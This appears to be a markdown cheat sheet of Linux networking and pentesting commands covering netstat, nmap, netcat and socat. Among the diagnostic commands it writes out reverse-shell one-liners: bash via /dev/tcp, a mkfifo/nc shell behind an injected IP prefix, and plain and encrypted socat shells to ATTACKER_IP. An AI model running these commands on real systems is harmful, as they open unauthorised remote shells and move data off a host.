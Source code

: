 # Network tool

* Check network throughput on different interfaces
```bash
cat /proc/net/dev
```

## `netstat`

* `-r` Show current system's routing table
```bash
netstat -r
```

* `-a` Show all connection, `-t` for TCP connection, `-u` for UDP connection
```bash
netstat -atu
```

* `-l` Show only listening connection.
```bash
netstat -lt
```

* `-p` Show the process and PID that is running to handle the network connection
```bash
netstat -p
```

* `-n` Show the numeric port number instead of trying to dynamically determine the symbolic host
```bash
netstat -n
```

* Restart network manager in kali
```bash
#!/bin/bash
sudo service networking restart
sudo service network-manager restart
```

# Network commands
* nmap -A: Aggressive mode
```bash
nmap -A IP
```

* Interactive bash shell
```bash
/bin/bash -i > /dev/tcp/IP/PORT 0<&1 2>&1
```

* Another way to get reverse shell with command execution
```bash
192.168.0.18; rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1  | nc -lp 9999 > /tmp/f
```

* TCP scanning with `nc`. `-w` specifies timeout in seconds. 
```bash
nc -nvv -w 1 -z 127.0.0.1 1000-2000
```
* Transfer file with `nc`! `-n` for numeric only IP addresses.
```bash
# Receiver
nc -nlvp 1337 > recv.txt

# Sender
nc 127.0.0.1 1337 < file.txt
```

* Scanning all services given a server with `nmap`
```bash
nmap -A 192.168.0.1
```

* `-sV` for detecting version, `-p-` for all ports, `-T4` for fast execution time.
```
nmap -p- -T4 -sV IP_ADDR
```

* `socat`, SOcket CAT, `TCP4` specifies the protocol, `-` is used to transfer data between `stdio` and remote host, allowing keyboard interaction with the shell
```bash
socat - TCP4:127.0.0.1:8080
```

* Bind a port to listen using `socat`, `STDOUT` redirects output to terminal
```bash
sudo socat TCP4-LISTEN:443 STDOUT
```

* File transfer with `socat`, `fork` will fork a child process whenever a client connects to the server, and will run indefinitely until killed. `file` is the option to specify which file to transfer. `create` will create the file if it doesn't exist.
```bash
server:
socat TCP4-LISTEN:8888,fork file:secret.txt

client:
socat TCP4:localhost:8888 file:receive.txt,create
```

* Reverse shell with `socat`, `-d -d` for more verbose output, `EXEC` is the option to run a target executable after client connects to it.
```bash
attacker:
socat -d -d TCP4-LISTEN:1337 STDOUT

victim:
socat TCP4:ATTACKER_IP:1337 EXEC:/bin/bash
```

* Encrypted reverse shell with `socat`. After generating a self-signed cert with `openssl`, we will use `cert` option to indicate our desire certificate to use for encryption, and `verify=0` to disable SSL certificate verification since it is a self-signed cert. 
```bash
attacker:
socat OPENSSL:VICTIM_IP:1337,verify=0

victim:
socat OPENSSL-LISTEN:1337 cert=server.pem, verify=0, fork EXEC:/bin/bash
```

* Show possible mount point given a server that is running NFS
```bash
showmount -e 192.168.0.1
```

* Show IP table rules
```bash
sudo iptables-save
```

* Disable a network interface card
```bash
sudo ifconfig eth0 down
```

* Enable a network interface card
```bash
sudo ifconfig eth0 up
```

* `ss`, socket statistic, `-a` shows all listening and non-listening sockets, `-n` displays the numeric IP, and does not resolve service name, `-t` specifies TCP sockets, `-l` displays only listening sockets, `-p` shows the process that is using the socket


